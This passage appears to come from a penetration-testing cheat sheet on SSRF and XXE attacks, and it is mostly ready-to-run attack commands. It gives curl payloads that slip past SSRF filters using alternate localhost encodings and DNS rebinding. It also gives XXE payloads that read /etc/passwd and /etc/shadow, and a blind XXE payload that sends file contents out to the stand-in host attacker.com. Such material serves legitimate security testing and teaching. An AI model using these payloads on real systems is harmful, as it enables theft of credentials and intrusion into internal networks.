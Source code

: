 ```bash
# May reveal sensitive system files

# SSRF bypass techniques
curl -X POST -d "url=http://127.1:80" http://target.com/fetch.php          # Alternative localhost representation
curl -X POST -d "url=http://0:80" http://target.com/fetch.php              # Short form localhost
curl -X POST -d "url=http://[::1]:80" http://target.com/fetch.php          # IPv6 localhost
curl -X POST -d "url=http://2130706433:80" http://target.com/fetch.php     # Decimal representation of 127.0.0.1

# DNS rebinding bypass
curl -X POST -d "url=http://malicious.com" http://target.com/fetch.php
# malicious.com resolves to 127.0.0.1 after DNS TTL expires
# Bypasses blacklist-based SSRF protection

# URL encoding bypass
curl -X POST -d "url=http://%31%32%37%2e%30%2e%30%2e%31:80" http://target.com/fetch.php
# URL encoded 127.0.0.1
# May bypass simple string matching filters
```

## XML External Entity (XXE) Injection

### **XXE Detection and Exploitation**

**What XXE vulnerabilities are:** XML parsing flaws that allow attackers to access local files, perform SSRF attacks, or cause denial of service through malicious XML input.

**Why XXE is important:** Common in applications processing XML, SOAP services, and file uploads. Can lead to file disclosure and internal network access.

```bash
# Basic XXE testing
cat > xxe_basic.xml << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>
EOF
curl -X POST -H "Content-Type: application/xml" --data-binary @xxe_basic.xml http://target.com/api/process

# File disclosure via XXE
cat > xxe_file_read.xml << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/shadow">]>
<user>
    <username>&xxe;</username>
    <password>test</password>
</user>
EOF
curl -X POST -H "Content-Type: application/xml" --data-binary @xxe_file_read.xml http://target.com/user/create

# XXE with parameter entities (blind XXE)
cat > xxe_blind.xml << 'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/dtd.xml?%xxe;'>">
%param1;
]>
<root>&exfil;</root>
EOF

```